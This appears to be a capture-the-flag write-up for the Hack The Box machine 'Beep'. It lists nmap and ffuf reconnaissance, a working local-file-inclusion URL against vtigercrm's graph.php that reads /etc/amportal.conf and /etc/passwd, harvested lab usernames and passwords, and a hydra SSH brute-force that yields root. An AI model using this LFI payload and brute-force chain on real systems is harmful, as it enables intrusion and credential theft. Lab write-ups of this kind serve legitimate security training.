







# [Beep](https://www.hackthebox.com/machines/beep)


```bash
nmap -sC -sS -T4 -p- -sV -A 10.10.10.7
```




Directory Brute-forcing
```bash
ffuf -u https://10.10.10.7/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```




After I see that web application is elastix, let's search CVE of this web application.
I found below CVE.




After looking at the content , I see below LFI.
```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

Also, by modifying 'etc/amportal.conf' file with 'etc/passwd' file we can enumerate users and passwords of them.


Possible Users=>
root
asterisk
admin
asteriskuser
cyrus
fanis
spamfilter
mysql

Possible Passwords=>
jEhdIekWmdjE
amp109



Let's start brute-forcing for ssh.


```bash
hydra -L users.txt -P passwords.txt ssh://10.10.10.7
```



I found valid credentials.

username: root
password: jEhdIekWmdjE


While trying to connect via ssh. I have problem, but I solved this.



user.txt and root.txt (together)



